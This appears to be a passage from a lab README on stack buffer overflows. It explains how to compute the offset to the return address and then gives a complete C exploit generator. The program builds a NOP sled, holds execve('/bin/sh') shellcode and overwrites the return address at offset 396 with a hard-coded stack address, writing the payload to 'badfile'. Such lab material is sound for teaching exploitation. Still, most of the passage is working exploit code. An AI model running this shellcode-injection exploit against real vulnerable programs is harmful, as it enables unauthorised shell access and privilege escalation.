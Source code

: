 Now in order to find the return address we need to find the address of **ebp**.

After, finding the address of **ebp** we need to find the starting address of buffer.

Finally, we calculate offset.

*0x188(HEX) = 392(DEC)*

<p align="center">
    <img src="README.assets/BufferOverflow3.png"/>
    <div align="center">Print address</div>
</p>
<br/>

```c
/* exploit.c */

/* A program that creates a file containing code for launching shell */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[] = "\x31\xc0" /*Line1:xorl%eax,%eax*/
                   "\x50"     /*Line2:pushl%eax*/
                   "\x68"
                   "//sh" /*Line3:pushl$0x68732f2f*/
                   "\x68"
                   "/bin"     /*Line4:pushl$0x6e69622f*/
                   "\x89\xe3" /*Line5:movl%esp,%ebx*/
                   "\x50"     /*Line6:pushl%eax*/
                   "\x53"     /*Line7:pushl%ebx*/
                   "\x89\xe1" /*Line8:movl%esp,%ecx*/
                   "\x99"     /*Line9:cdq*/
                   "\xb0\x0b" /*Line10:movb$0x0b,%al*/
                   "\xcd\x80" /*Line11:int$0x80*/
    ;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile; /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */
    *((long *)(buffer + 396)) = 0xbfffef58 + 0x88;
    memcpy(buffer + sizeof(buffer) - sizeof(shellcode), shellcode, sizeof(shellcode));

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```
